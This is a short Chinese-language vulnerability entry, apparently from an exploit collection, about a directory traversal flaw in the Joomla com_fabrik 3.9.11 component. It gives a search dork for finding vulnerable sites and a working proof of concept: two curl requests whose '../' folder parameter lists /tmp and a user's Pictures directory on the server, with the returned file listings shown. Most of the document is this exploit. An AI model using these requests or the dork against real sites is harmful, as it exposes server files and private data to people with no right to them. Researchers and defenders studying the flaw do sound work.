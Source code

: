 Joomla! com\_fabrik 3.9.11 目录遍历漏洞
=======================================

一、漏洞简介
------------

关键字:inurl:\"index.php?option=com\_fabrik\"

二、漏洞影响
------------

Version: 3.9

三、复现过程
------------

### poc

    $> curl -X GET -i "http://www.0-sec.org/joomla/index.php?option=com_fabrik&task=plugin.pluginAjax&plugin=image&g=element&method=onAjax_files&folder=../../../../../../../../../../../../../../../tmp/"
    ...snip...
    [{"value":"eila.jpg","text":"eila.jpg","disable":false},{"value":"eilanya.jpg","text":"eilanya.jpg","disable":false},{"value":"topsecret.png","text":"topsecret.png","disable":false}]
    ...snip...
    $> curl -X GET -i "http://www.0-sec.org/joomla/index.php?option=com_fabrik&task=plugin.pluginAjax&plugin=image&g=element&method=onAjax_files&folder=../../../../../../../../../../../../../../../home/user123/Pictures/"
    ...snip...
    [{"value":"Revision2017_Banner.jpg","text":"Revision2017_Banner.jpg","disable":false},{"value":"Screenshot from 2019-02-23 22-43-54.png","text":"Screenshot from 2019-02-23 22-43-54.png","disable":false},{"value":"Screenshot from 2019-03-09 14-59-22.png","text":"Screenshot from 2019-03-09 14-59-22.png","disable":false},{"value":"Screenshot from 2019-03-09 14-59-25.png","text":"Screenshot from 2019-03-09 14-59-25.png","disable":false},{"value":"Screenshot from 2019-03-16 23-17-05.png","text":"Screenshot from 2019-03-16 23-17-05.png","disable":false},{"value":"Screenshot from 2019-03-18 07-30-41.png","text":"Screenshot from 2019-03-18 07-30-41.png","disable":false},{"value":"Screenshot from 2019-03-18 08-23-45.png","text":"Screenshot from 2019-03-18 08-23-45.png","disable":false},{"value":"Screenshot from 2019-04-08 00-09-36.png","text":"Screenshot from 2019-04-08 00-09-36.png","disable":false},{"value":"Screenshot from 2019-04-08 10-34-23.png","text":"Screenshot from 2019-04-08 10-34-23.png","disable":false},{"value":"Screenshot from 2019-04-13 08-23-48.png","text":"Screenshot from 2019-04-13 08-23-48.png","disable":false},{"value":"Screenshot from 2019-05-24 23-14-05.png","text":"Screenshot from 2019-05-24 23-14-05.png","disable":false},{"value":"b.jpg","text":"b.jpg","disable":false},{"value":"by_gh0uli.tumblr.com-8755.png.jpeg","text":"by_gh0uli.tumblr.com-8755.png.jpeg","disable":false},{"value":"max_payne_06.jpg","text":"max_payne_06.jpg","disable":false},{"value":"xxx.jpg","text":"xxx.jpg","disable":false}]
    ...snip...
